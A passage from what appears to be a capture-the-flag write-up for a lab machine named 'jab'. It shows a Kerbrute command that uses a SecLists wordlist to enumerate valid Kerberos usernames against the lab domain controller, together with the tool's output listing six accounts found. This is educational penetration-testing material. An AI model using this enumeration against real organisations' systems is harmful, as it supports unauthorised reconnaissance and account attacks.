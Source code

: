 ![](img/jab7.png)

Even with a 'classic' registration, it does not seem to be possible to do much. In Gajim, there is a feature that allows one to search for contacts with whom to start a chat. Unfortunately, we do not know any users. We could, however, exploit the Kerberos protocol on port 88 to identify any users in the system. Kerbrute is used for this purpose. We also use the "names.txt" wordlist of "seclists".

We succeed in identifying a number of users.

```shell
$ ./kerbrute_linux_amd64 userenum --dc 10.129.164.20 -d jab.htb /usr/share/wordlists/seclists/Usernames/Names/names.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/27/24 - Ronnie Flathers @ropnop

2024/02/27 17:51:32 >  Using KDC(s):
2024/02/27 17:51:32 >   10.129.164.20:88

2024/02/27 17:51:33 >  [+] VALID USERNAME:       alane@jab.htb
2024/02/27 17:51:39 >  [+] VALID USERNAME:       callen@jab.htb
2024/02/27 17:51:45 >  [+] VALID USERNAME:       drew@jab.htb
2024/02/27 17:51:46 >  [+] VALID USERNAME:       elane@jab.htb
2024/02/27 17:51:47 >  [+] VALID USERNAME:       ely@jab.htb
2024/02/27 17:52:02 >  [+] VALID USERNAME:       leaton@jab.htb
2024/02/27 17:52:29 >  Done! Tested 10177 usernames (6 valid) in 57.254 seconds
```
